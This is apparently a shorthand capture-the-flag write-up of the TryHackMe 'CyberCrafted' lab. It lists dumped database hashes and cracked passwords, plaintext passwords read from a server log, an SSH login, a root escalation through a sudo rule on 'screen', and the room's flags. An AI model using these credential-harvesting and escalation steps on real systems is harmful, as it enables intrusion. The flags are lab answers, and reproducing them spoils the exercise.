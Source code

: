 # CyberCrafted 

> VOiD | Saturday 20 November 2021 12:36:46 AM IST

My IP : 10.8.253.221
Target IP : 


http://cybercrafted.thm/
http://www.cybercrafted.thm/
same

http://store.cybercrafted.thm/
Permission denied
[02:16:12] 200 -  838B  - /search.php



http://admin.cybercrafted.thm/
login page


```bash
Database: webapp
Table: admin
[2 entries]
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 | xXUltimateCreeperXx |
| 4  | THM{bbe315906038c3a62d9b195001f75008}    | web_flag            |
+----+------------------------------------------+---------------------+

xXUltimateCreeperXx:diamond123456789
```


## USER [www-data]
```bash
$db_host = "localhost";
$db_user = "root";
$db_pwd = "";
$db_name = "webapp";

```

## USER [xxultimatecreeperxx]
```bash
creepin2006      (id_rsa_xxultimatecreeperxx)

# m h dom mon dow user	command
* *	1 * *   cybercrafted tar -zcf /opt/minecraft/WorldBackup/world.tgz /opt/minecraft/cybercrafted/world/*

cat minecraft_server_flag.txt 
THM{ba93767ae3db9f5b8399680040a0c99e}

cat note.txt
Just implemented a new plugin within the server so now non-premium Minecraft accounts can game too! :)
- cybercrafted

P.S
Will remove the whitelist soon.


xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat log.txt

[2021/06/27 11:25:07] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:25:16] cybercrafted registered. PW: JavaEdition>Bedrock
[2021/06/27 11:46:30] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:47:34] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:52:13] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:57:29] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:57:54] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:38] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:58:46] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:52] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:59:01] madrinch logged in. PW: Password123


cybercrafted:JavaEdition>Bedrock
ssh cybercrafted@10.10.113.145
```

## USER [cybercrafted]
```bash
cybercrafted@cybercrafted:~$ cat user.txt 
THM{b4aa20aaf08f174473ab0325b24a45ca}



User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted

sudo /usr/bin/screen -r cybercrafted

root@cybercrafted:~# cat root.txt 
THM{8bb1eda065ceefb5795a245568350a70}

```